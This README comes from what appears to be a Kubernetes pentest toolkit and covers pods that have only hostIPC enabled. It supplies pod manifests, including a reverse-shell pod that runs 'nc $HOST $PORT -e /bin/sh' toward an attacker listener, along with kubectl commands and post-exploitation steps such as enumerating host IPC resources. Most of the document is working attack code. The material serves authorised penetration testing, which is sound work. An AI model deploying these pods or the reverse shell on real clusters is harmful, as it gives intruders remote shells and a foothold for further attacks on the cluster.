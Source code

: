 ## You can create a pod with only hostIPC

If you only have `hostIPC=true`, you most likely can't do much. What you should do is use the `ipcs` command inside your hostIPC container to see if there are any ipc resources (shared memory segments, message queues, or semaphores). If you find one, you will likely need to create a program that can read them. 

# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostipc
  labels:
    app: pentest
spec:
  hostIPC: true
  containers:
  - image: ubuntu
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    name: hostipc
    #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name  ```
[pod-hostipc.yaml](pod-hostipc.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-hostipc.yaml   
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostipc/pod-hostipc.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostipc -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostipc-revshell
  labels:
    app: pentest
spec:
  hostIPC: true
  containers:
  - image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    name: hostipc--revshell
    #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name```
[pod-hostipc-revshell.yaml](pod-hostipc-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/hostipc/pod-hostipc-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post exploitation 
#### Look for any use of inter-process communication on the host 
```bash
ipcs -a
```

#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact
If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

# Reference(s): 
* https://opensource.com/article/20/1/inter-process-communication-linux
